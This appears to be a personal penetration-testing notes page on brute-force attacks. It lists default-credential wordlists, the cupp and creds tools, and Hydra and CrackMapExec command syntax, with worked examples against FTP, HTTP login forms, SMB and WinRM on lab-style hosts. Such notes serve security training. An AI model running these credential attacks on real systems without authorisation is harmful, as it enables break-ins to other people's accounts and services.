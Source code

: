 ```yaml
---
title: Pentesting - Brute Force
author: ioritz_elisa 
date: 2023-07-27 0:0:00 +0000 
categories: [Notes, Pentesting, Brute Force] 
tags: [Default Credentials, Personalized Wordlist, Brute Force to Services, Brute Force to Login, Passwords Attacks] 
pin: true
---
```



## Default Credentials

> Some wordlists that contain default passwords for different services:

* [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials)

* [Rockyou](https://github.com/praetorian-inc/Hob0Rules/tree/master/wordlists)

* https://github.com/ihebski/DefaultCreds-cheat-sheet/blob/main/DefaultCreds-Cheat-Sheet.csv

* https://github.com/govolution/betterdefaultpasslist

* https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top100.txt

* https://github.com/ihebski/DefaultCreds-cheat-sheet

> **creds** is a interesting tool to looking for default credentials for a service.

Installation:

```
pip3 install defaultcreds-cheat-sheet
```

Example:

```
creds search tomcat
```



## Personalized Wordlists

There are some tools that create a custom dictionary, for example **cupp**:

> Command:

```
cupp -i
```



## Brute Force to Services

**Hydra** is a password-cracking tool used for performing brute-force and dictionary attacks to gain unauthorized access to password-protected systems or services.

> Syntax with dictionaries:

```
hydra -L <pathFile-usernames> –P <pathFile-passwords> <IP> -s <port> <service>
```

> Syntax command with known credentials:

```
hydra -l <username> -p <password> <IP> <service>
```

It can also be combined:

```
hydra -l <username> -P <pathFile-passwords> <IP> <service>
```

or:

```
hydra -L <pathFile-usernames> -p <password> <IP> <service>
```

Examples:

```
hydra -L users.list -P passwords.list ftp://10.129.150.181:2121
```

```
hydra -L users.list -P passwords.list 10.129.150.181:2121 ftp
```



## Brute Force to Login

Syntax:

```
hydra -l <username> -P </passwords_list.txt> <target> http-post-form "/<login-page.php>:<fieldUsername>=<username>&<fieldPassword>=^PASS^:<text>"
```

Example:

```
hydra -l admin -P ./passwords.txt monitoring.inlanefreight.local http-post-form "/login.php:username=admin&password=^PASS^:Invalid Credentials!"
```

Other example:

```
hydra -l admin -P ./rockyou.txt 10.129.166.127 http-post-form "/monitoring/login.php:username=admin&password=^PASS^:Invalid Credentials!"
```

The parameters should be obtained by right-clicking with the mouse and inspecting the login page. The fields to be brute forced should be inspected. 

The text at the end of the command is to search for different responses other than that message.

> Example of brute force attack to login popup

````
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 167.99.197.55 -s 30705 http-get /
````



## Password Attacks

> Crackmapexec

CrackMapExec (CME) is a powerful post-exploitation tool used by cybersecurity professionals, red teamers, and ethical hackers. It is primarily designed for network reconnaissance, lateral movement, and exploitation during penetration testing and security assessments.

Syntax command:

```
crackmapexec <protocol> <target> -u <user or userlist> -p <password or passwordlist>
```

Examples:

```
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

```
crackmapexec smb 10.129.42.197 -u "user" -p "password"
```

